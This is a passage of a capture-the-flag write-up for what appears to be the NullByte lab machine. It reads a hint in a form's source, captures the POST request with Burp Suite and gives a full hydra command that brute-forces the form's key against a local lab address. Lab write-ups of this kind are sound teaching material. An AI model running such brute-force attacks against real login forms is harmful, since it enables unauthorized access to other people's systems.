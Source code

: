 

<pre class="wp-block-syntaxhighlighter-code brush: xml; notranslate">&lt;center>
&lt;form method="post" action="index.php">
Key:&lt;br>
&lt;input type="password" name="key">
&lt;/form> 
&lt;/center>
&lt;!-- this form isn't connected to mysql, password ain't that complex --!></pre>



<p>There isn't anything special in the source code BUT there is a line which might be a hint to the attacker. Look at the line "<em>this form isn't connected to mysql, password ain't that complex</em>". If you have some experience in breaking boxes, you might be aware that reality is totally opposite of what is mentioned in source codes generally. This is done to prevent attacker from making even an attempt to connect to MySQL. But it's a clear and true hint that the password isn't that complex. This leads us to brute force attack. </p>



<p>I used <strong>hydra </strong>tool to brute force the form for passwords. To work with hydra, we need to tell the hydra how the request string or request parameters looks like in the HTTP request. To get that information, I used <strong>burpsuite </strong> tool to intercept HTTP requests and examined the request. I entered a random key(password) and hit Enter. The request generated was:</p>



<pre class="wp-block-code"><code>POST /kzMb5nVYJw/index.php HTTP/1.1
Host: 192.168.43.148
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:65.0) Gecko/20100101 Firefox/65.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.43.148/kzMb5nVYJw/
Content-Type: application/x-www-form-urlencoded
Content-Length: 11
Connection: close
Upgrade-Insecure-Requests: 1
DNT: 1

<p style="color:Red;">key=testKey</p></code></pre>



<p>I want you to notice few things here. First is that our entered key is being passed through the <strong>key</strong> variable. Since the variable is included in the request's body, we know that this form is using <strong>POST</strong> method. Now we need to pass the <strong>key</strong> variable to hydra so that it can make appropriate request to the server. Following is the <strong>hydra </strong>syntax I used for brute forcing the key.</p>



<pre class="wp-block-code"><code>hydra 192.168.43.148 -V -l "" -P /home/xscorp/Desktop/NullByte/brute_pass.txt  http-post-form "/kzMb5nVYJw/index.php:key=^PASS^:invalid"</code></pre>


